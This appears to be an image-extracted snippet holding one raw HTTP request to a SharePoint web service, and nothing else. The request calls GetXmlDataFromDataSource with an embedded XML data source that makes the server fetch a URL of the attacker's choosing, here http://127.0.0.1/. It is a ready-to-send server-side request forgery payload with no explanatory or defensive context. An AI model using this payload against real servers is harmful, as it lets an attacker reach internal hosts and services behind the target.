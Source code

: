 POST /_vti_bin/webpartpages.asmx HTTP/1.1
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36
SOAPAction: "http://microsoft.com/sharepoint/webpartpages/GetXmlDataFromDataSource"
Host: localhost
Content-Type: text/xml; charset=utf-8
Content-Length: 1299
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetXmlDataFromDataSource xmlns="http://microsoft.com/sharepoint/webpartpages">
      <queryXml>&lt;udc:DataSource xmlns:udc="http://schemas.microsoft.com/data/udc" xmlns:udcs="http://schemas.microsoft.com/data/udc/soap" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:dsp="http://schemas.microsoft.com/sharepoint/dsp" xmlns:dataurl="http://schemas.microsoft.com/sharepoint/dsp/xmlurl"&gt;  &lt;udc:ConnectionInfo&gt;    &lt;udcs:Location href=""&gt;XMLURLDataAdapter&lt;/udcs:Location&gt;    &lt;soap:Header&gt;      &lt;dsp:versions&gt;      &lt;/dsp:versions&gt;      &lt;dsp:request method="query" /&gt;    &lt;/soap:Header&gt;    &lt;soap:Body&gt;      &lt;dsp:queryRequest&gt;        &lt;dsp:ptQuery&gt;          &lt;dataurl:Headers&gt;            &lt;dataurl:Url href="http://127.0.0.1/" Method="HTTP Get"/&gt;          &lt;/dataurl:Headers&gt;        &lt;/dsp:ptQuery&gt;      &lt;/dsp:queryRequest&gt;    &lt;/soap:Body&gt;  &lt;/udc:ConnectionInfo&gt;&lt;/udc:DataSource&gt;</queryXml>
    </GetXmlDataFromDataSource>
  </soap:Body>
</soap:Envelope>
